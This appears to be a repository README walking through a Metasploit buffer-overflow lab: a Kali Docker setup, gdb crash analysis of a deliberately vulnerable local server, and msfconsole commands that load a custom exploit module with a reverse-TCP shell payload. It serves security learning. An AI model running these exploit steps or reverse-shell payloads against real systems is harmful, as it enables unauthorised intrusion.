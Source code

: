 # Getting Started With MetaSploit

## Use Kali Docker image as base

- Pull Kali image
    - Discussed [here](kalilinux/kali-linux-docker)
    - `docker pull kalilinux/kali-linux-docker`

- Add metasploit and other necessary stuff on top of it
    - Use [this](./Dockerfile.kali) Dockerfile
    - `docker build -f Dockerfile.kali -t kali_image .`

- Run the image
    - `docker run -ti -p 4444:4444 -p 8080:8080 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -v ./:/u4 kali_image /bin/bash`
    - Use `--cap-add=SYS_PTRACE --security-opt seccomp=unconfined` so that gdb
    will work properly.
    - Use `-v` so you don't lose all of your work if you exit

## First Attempt

This is based off a very nice tutorial seen [here](https://taishi8117.github.io/2016/07/24/bof-metasploit/).  This tutorial assumes some of the stuff that is necessary about metasploit
without specifically saing it.  Namely:

1) Designed to attack over the network

While there are "local" exploits in the metasploit universe, they are
usually only used after an initial exploit gives access to a remote host.
For example, the [zpanel\_zsudo](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/local/zpanel_zsudo.rb)
exploit goes from user access to escalate priviledges.  This was frustrating
because I kept trying to deploy this exploit and kept running into:

```
[-] Exploit failed: The following options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
```

This cryptic message meant that metasploit didn't control a shell on some remote
host, which meant it couldn't run a local exploit.  Only by *first* gaining
access to the remote system (aka establishing a meterpreter session), could the
"local" exploit be run.

> Note: It seems to be possible to trick metasploit so it thinks it's connected
to a local system, as seen [here](https://kb.help.rapid7.com/discuss/599b6461d6383b0039d7fbbd)

2) It doesn't do a great job explaing how to debug failures

I have still not been able to land an exploit, despite following the tutorial
verbatim.  Due to this effort, however, I figured out how to follow what
metasploit is trying to do via gdb.  This is possible by setting up the given
vulnerable server under gdb, then stepping through metasploits connection.

3) For simple attacks like the one in the tutorial, the binary should be *static*

This prevents having to worry about the stack being in different places, making
reply much more difficult.

## Step-by-step

1) In window (1) Setup environment

```
## Setup peda gdb plugin
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

## Add bof_lab exploit to metasplit modules
cd /u4
git clone https://github.com/taishi8117/bof_lab.git
mkdir /usr/share/metasploit-framework/modules/exploits/custom
cp bof_lab/vuln_server/bof_lab.rb /usr/share/metasploit-framework/modules/exploits/custom
```

2) In window (1), compile and run the vulnerable server

```
cd /u4/bof_lab/vuln_server
vim Makefile           ## add "-static" for replayability
make
gdb --args ./tcp__server 1234
pattern_create 1200 pattern.txt
run
```

3) In window (2), run `simple_client.py` to determine *under which conditions*
the vulnerable server crashes.

```
cd /u4/bof_lab/vuln_server
git apply patch.diff   ## found in in this repo
python simple_client.py pattern.txt 1234
```

4) The connection by `simple_client.py` should now allow the gdb session in
window (1) to continue w/o a problem.  It should have segfaulted.

```
pattern_search
p/x $esp   # Add this value to /usr/share/metasploit-framework/modules/exploits/custom
q
```

5) In window (1), set up a gdb session so you can see what metasploit is doing

```
rm ~/.gdbinit
gdb --args ./tcp__server 1234
start
```

6) In window (2), fire up metasploit and start exploiting

```
service postgresql start
ss -ant                ## check that port 5432 is open
msfconsole
use exploit/custom/bof_lab
set RHOST 172.17.0.4   ## Get this value in the Docker image by running `ip a`
set RPORT 1234
set LHOST 127.0.0.1
set LPORT 8888
set payload linux/x86/shell/reverse_tcp
run
```

7) In window (1) step through the program, watching the connection and the
values that get injected by the exploit.

For example, you should eventually start to see the byte-code of the injected
payload.  If you are using the `linux/x86/shell/reverse_tcp`, you can see what
it's trying to do at `/usr/share/metasploit-framework/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb`

## Troubleshooting

- You can output debug/error messages using the elog (dlog, ...) function
    - https://github.com/rapid7/metasploit-framework/wiki/How-to-log-in-Metasploit

- Until you have exploited a program and injected a call to fire up a shell,
no sessions will be available

- The tutorial is a little consusing because, during the initial EIP/ESP
analysis, `simple_client.py` adds 4 bytes of it's own (the number of bytes about
to be sent).  This explains why there seems to be an "off by four" error
throughout the tutorial.
